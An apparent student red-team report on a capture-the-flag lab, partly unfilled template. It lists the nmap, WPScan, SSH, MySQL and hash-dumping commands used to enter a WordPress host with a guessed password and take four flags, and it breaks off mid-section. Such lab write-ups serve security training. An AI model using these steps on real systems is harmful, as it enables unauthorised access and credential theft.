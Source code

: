 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services
_TODO: Fill out the information below._

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap 192.168.1.0/24
```

![Nmap Scan Results](/images/nmap%20192_168_1_0.png)

This scan identifies the services below as potential points of entry:
- Target 1 (192.168.1.110)
  - 22/tcp  open  ssh
  - 80/tcp  open  http
  - 111/tcp open  rpcbind
  - 139/tcp open  netbios-ssn
  - 445/tcp open  microsoft-ds

The following vulnerabilities were identified on each target:
- Target 1
  - Weak Passwords
  - WordPress User Enumeration
  - Port 22 open

![wpscan](

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
Target 1
- `flag1: b9bbcb33ellb80be759c4e844862482d`
- Exploit to find users:
    - WPScan to enumerate users of the Target 1 WordPress site
    - Command: 
        - `$ wpscan --url http://192.168.1.110 --enumerate u`


![WP_Scan](/images/03%20wpscan%201.PNG)
- Logging into Target 1 as user Michael
  - Brute force/guessing Michael's password
  - Weak password too easy
  - Password: michael
- Searching directories for Flag 1
  - SSH and directory traversal
  - flag 1 found in /var/www/html folder in root in service.html in a HTML comment at "End of footer area"
        - `ssh michael@192.168.1.110`
        - `pw: michael`
        - `cd ../`
        - `cd ../`
        - `cd var/www/html`
        - `ls -l`
        - `nano service.html`


![Flag 01](/images/04%20FLAG%2001.PNG)

- `flag2: fc3fd58dcdad9ab23faca6e9a3e581c`
  - Exploit Used
    - `ssh michael@192.168.1.110` 
    - `pw: michael`
    - `cd ../` 
    - `cd ../`
    - `cd var/www`
    - `ls -l`
    - `cat flag2.txt`


![Flag2](images/05%20FLAG%2002.PNG)

- `flag3: afc01ab56b50591e7dccf93122770cd2`
  - Exploit Used
    - SSH and directory traversal
    - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1` 
    - `show databases;`
    - `use wordpress;` 
    - `show tables;`
    - `select * from wp_posts;`


![Flag 03](/images/06%203%20flag.PNG)

- `flag4: 715dea6c055b9fe3337544932f2941ce`
  - Exploit Used
    - Unsalted password hash and the use of privilege escalation with Python.
    - Capturing Flag 4: Retrieve user credentials from database, crack password hash with John the Ripper and use Python to gain root privileges.
      - Once having gained access to the database credentials as Michael from the wp-config.php file, lifting username and password hashes using MySQL was next. 
      - These user credentials are stored in the wp_users table of the wordpress database. The usernames and password hashes were copied/saved to the Kali machine in a file called hashes.
        - Commands:
          - `mysql -u root -p’R@v3nSecurity’ -h 127.0.0.1`
          - `show databases;`
          - `use wordpress;`
          - `show tables;`
          - `select * from wp_users;`

![wp_users](/images/08%20wp%20users.png)

          - d

